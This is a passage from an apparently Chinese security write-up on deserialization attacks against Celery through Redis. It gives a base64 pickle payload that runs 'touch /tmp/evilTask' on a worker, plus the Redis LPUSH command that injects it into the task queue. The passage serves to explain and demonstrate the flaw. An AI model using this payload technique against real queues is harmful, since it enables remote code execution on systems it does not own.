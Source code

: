 转换为字符串：

```
"{\"body\": \"Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=\", \"headers\": {}, \"content-type\": \"application/x-python-serialize\", \"properties\": {\"body_encoding\": \"base64\", \"delivery_info\": {\"priority\": 0, \"routing_key\": \"celery\", \"exchange\": \"celery\"}, \"delivery_mode\": 2, \"correlation_id\": \"73b9cafe-1c8d-4ff6-b7a8-49b60bff14ff\", \"reply_to\": \"b6c304bb-45e5-3b27-95dc-29335cbce9f1\", \"delivery_tag\": \"0ad4f731-e5d3-427c-a6d6-d0fe48ff2b09\"}, \"content-encoding\": \"binary\"}"
```

然后将该信息直接添加到 Redis 的 队列名为 `celery` 的任务列表中（注意转义）：

```
127.0.0.1:6379> LPUSH celery "{\"body\": \"Y3Bvc2l4CnN5c3RlbQpwMAooUyd0b3VjaCAvdG1wL2V2aWxUYXNrJwpwMQp0cDIKUnAzCi4=\", \"headers\": {}, \"content-type\": \"application/x-python-serialize\", \"properties\": {\"body_encoding\": \"base64\", \"delivery_info\": {\"priority\": 0, \"routing_key\": \"celery\", \"exchange\": \"celery\"}, \"delivery_mode\": 2, \"correlation_id\": \"73b9cafe-1c8d-4ff6-b7a8-49b60bff14ff\", \"reply_to\": \"b6c304bb-45e5-3b27-95dc-29335cbce9f1\", \"delivery_tag\": \"0ad4f731-e5d3-427c-a6d6-d0fe48ff2b09\"}, \"content-encoding\": \"binary\"}"
```

这时候再起一个默认队列的 Worker 节点，Worker 从 MQ 中取出任务信息并解析我们的恶意数据，如果成功执行了会在 Worker 节点创建文件 `/tmp/evilTask`：

![](/images/articles/2016-04-07-serialization-troubles-in-message-queuing-componet/4.png)

攻击流程就应该为：

![](/images/articles/2016-04-07-serialization-troubles-in-message-queuing-componet/5.png)
